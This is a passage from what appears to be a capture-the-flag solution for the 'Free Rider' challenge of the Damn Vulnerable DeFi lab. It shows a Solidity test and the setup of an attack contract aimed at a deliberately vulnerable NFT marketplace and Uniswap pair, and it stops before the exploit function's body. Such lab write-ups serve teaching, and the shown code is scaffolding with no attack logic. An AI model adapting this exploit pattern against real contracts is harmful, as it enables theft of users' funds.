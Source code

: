 PoC:
```solidity
// add this test
function test_freeRider() public checkSolvedByPlayer {
    
    FreeRiderExploiter exploiter = new FreeRiderExploiter (
        payable(address(weth)),
        address(token),
        address(nft),
        address(uniswapV2Factory),
        address(uniswapV2Router),
        address(uniswapPair),
        payable(address(marketplace)),
        address(recoveryManager),
        player
    );

    exploiter.exploit();
}

// attack contract
contract FreeRiderExploiter {
    
    uint256 constant AMOUNT_OF_NFTS = 6;

    WETH weth;
    DamnValuableToken token;
    DamnValuableNFT nft;

    IUniswapV2Pair uniswapPair;
    IUniswapV2Factory uniswapV2Factory;
    IUniswapV2Router02 uniswapV2Router;
    FreeRiderNFTMarketplace marketplace;
    FreeRiderRecoveryManager recoveryManager;

    address player;

    constructor(
        address payable _weth,
        address _token,
        address _nft,
        address _uniswapV2Factory,
        address _uniswapV2Router,
        address _uniswapV2Pair,
        address payable _marketplace,
        address _recoveryManager,
        address _player
    ) {
        weth = WETH(_weth);
        token = DamnValuableToken(_token);
        nft = DamnValuableNFT(_nft);

        uniswapV2Factory = IUniswapV2Factory(_uniswapV2Factory);
        uniswapV2Router = IUniswapV2Router02(_uniswapV2Router);
        uniswapPair = IUniswapV2Pair(_uniswapV2Pair);

        recoveryManager = FreeRiderRecoveryManager(_recoveryManager);
        marketplace = FreeRiderNFTMarketplace(_marketplace);

        player = _player;
    }

    function exploit() external {

```